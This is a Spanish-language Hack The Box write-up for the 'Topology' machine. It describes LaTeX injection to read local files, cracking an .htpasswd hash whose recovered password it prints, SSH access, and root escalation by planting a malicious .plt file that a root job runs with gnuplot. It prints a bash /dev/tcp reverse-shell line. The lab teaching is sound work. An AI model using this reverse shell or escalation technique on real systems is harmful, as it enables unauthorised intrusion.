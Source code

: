 # Topology

![q1](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/bebd3d0f-e8ed-4188-ade4-d450c69a5a44)

## Fase de reconocimiento

En primer lugar, realizamos un ping -c1 <ip> a la ip de la maquina para verificar conectividad. Como observamos, el ttl de respuesta del ping posee el numero 63, es decir que probablemente estemos ante un sistema Linux (ttl 64). 

Arrancamos haciendo un escaner de todos los puertos utilizando nmap con los parametros en cuestion para agilizar el escaneo.

Los puertos abiertos que resultaron del escaneo fueron el 22 (SSH) y el puerto 80 (HTTP). Luego, realizamos un descubrimiento de servicios y versiones mas detallado en los puertos en cuestion:

![q2](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/cbfae21a-3f3c-47d8-8cf7-873c4355b8a9)

Vemos que se esta hosteando un servicio apache 2.4.41 e ingresamos a traves del navegador al mismo:

![q3](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/78493217-e72e-4fee-a199-2551421e9e7f)

Parece ser una pagina de investigacion de una universidad. Los datos que rescatamos de la misma son la informacion de los 3 profesores, asi como tambien un email de uno de ellos que nos puede llegar a resultar util en un futuro.

Uno de los proyectos que aparecen posee un link a latex.topology.htb/equation.php asique para poder ingresar ahi debemos agregar la ip de la maquina victima junto con esa ruta a nuestro file /etc/hosts.

![q4](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/6cdd63cf-423b-44ab-b8e7-e319022b5799)

Parece ser una pagina que nos permite inyectar codigo en formato LaTeX y luego del lado del servidor este mismo se interpreta y devuelve una imagen con la formula en cuestion.

Antes de continuar, y dado que encontramos el subdominio latex.topology.htb, realizamos una busqueda con wfuzz sobre otros posibles subdominios y encontramos otro: dev.topology.htb asique lo añadimos al /etc/hosts.

![q5](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/4e4f8e7d-c81a-475e-ab1c-8538c70ed0fc)

Nos pide credenciales, las cuales no poseemos, asique seguimos investigando la pagina del subdominio de latex.

## Explotación

El siguiente paso requiere de mucha investigacion, pero finalmente nos encontramos con un par de paginas que hablan del tema de latex exploitation. Una de ellas es la famosa pagina https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection. 

Despues de un rato de probar varias combinaciones y recibir periodicamente el mensaje en png 

![q6](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/b0ac82c4-f609-4c01-b226-922359f0b04d)

Logramos dar con una combinacion que nos permite leer archivos locales de la maquina en el formato png (LFI vulnerability):

 
![q7](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/29a3be97-6698-4aa2-adfe-9b9a92e5623f)


Si la ejecutamos asi como esta, no funciona porque al parecer tiene errores, pero si le agregamos al inicio y al final el signo $ obtenemos el contenido del archivo en cuestion que queramos!

En este caso /etc/passwd:

![q8](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/1976821e-e02d-4fd5-92ae-1d95d238663e)

Aprovechando este exploit, y sabiendo que generalmente en los webservers de apache tenemos un archivo llamado .htpasswd que almacena las credenciales, podemos probar obtener este archivo del directorio dev encontrado anteriormente para ver si conseguimos las credenciales:

![q9](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/5b963377-3217-4dc2-bbe1-a3cef64069c3)

Perfecto! Ahora podemos crackear este hash facilmente con hashcat o john.

Si nos fijamos en la pagina de hashcat que tipo es para luego utilizar ese modo de cracking obtenemos lo siguiente:

![q10](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/17a7a072-4e46-48a6-8f3a-c595726c3814)

![q11](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/7edb62ac-8422-4bc4-918c-ebca46410b99)

Creackeado! user:vdaisley y password:calculus20. Usamos estas credenciales para acceder a dev.topology.htb

![q12](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/b8cbf0c8-a83c-45de-a3a6-c1323ab2ca04)

Esta pagina parece ser el portafolio de las dos primeras personas que aparecian en el staff de la web principal.

A primera vista, y mirando el codigo fuente, no parece haber ningun link de utilidad.

Procedemos a hacer directory busting para ver si conseguimos recabar mas informacion, pero no encontramos nada.

En este punto, creo que estamos ante un rabbit hole, es decir que no vale la pena seguir investigando esta pagina porque no vamos a encontrar nada. Un buen articulo que recomiendo sobre este tema es el siguiente: https://medium.com/@luke.williams1248/on-pen-testing-rabbit-holes-and-how-to-avoid-them-ed7b93cdfaa5. 

Continuando con la maquina, y recordando que poseemos credenciales que crackeamos para el user vdaisley, probamos conectarnos por SSH y tenemos exito!:

![q13](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/e25767c2-f5ee-4f19-9c3e-b978b026d8a6)


## Escalar privilegios

Arrancamos a investigar que permisos posee el usuario. Con respecto a SUDO no posee ninguno, binarios SUID ninguno que sirva, no tenemos acceso de lectura al /etc/shadow ni escritura al /etc/passwd. 

Utilizando hostname -I, el comando ls -la para chequear que no haya un .dockerenv descartamos que estemos dentro de un contenedor.

Realizando password and ssh keys looting tampoco encontramos nada, ni cron jobs o capabilites utiles.

Posterior a esta investigacion de privilige escalation tradicional, podemos usar pspy para poder monitorizar los procesos de linux sin necesidad de ser root:

![q14](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/d0eeee6e-60e5-41b1-854f-e38ae6f8dcdc)

Vemos un proceso interesante que esta ejecutando el UID=0, es decir root. No solo eso, sino que en la carpeta /opt, que generalmente se encuentra vacia.

![q15](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/100805e6-6c3b-45d2-9f41-86aee1688f91)

Segun los permisos podemos afirmar que el directorio pertenece a root y que cualquiera tiene capacidad de escritura y ejecucion, pero no de lectura.

En base a esto, y dado que sabemos que pertenece a root y que el mismo ejecuta con el comando find “/opt/gnuplot” -name “*.plt” -exec gnuplot {} \; todos los archivos en este directorio con extension .plt, podemos crear un archivo malintencionado que nos de los privilegios que queremos:

Como no podemos ingresar a leer directamente en ese directorio, debemos crear nuestro archivo .plt en nuestro /home y luego hacer un mv a /opt/gnuplot. 

Utilizando este codigo podemos obtener una reverse shell que sea invocada por el root:

```bash
# Reverse shell
system "bash -c 'bash -i >& /dev/tcp/<ipLocal>/<puerto> 0>&1'"
```

![q16](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/9d34a2ae-ff45-46f3-baed-74f06870baf0)

### Pwned!
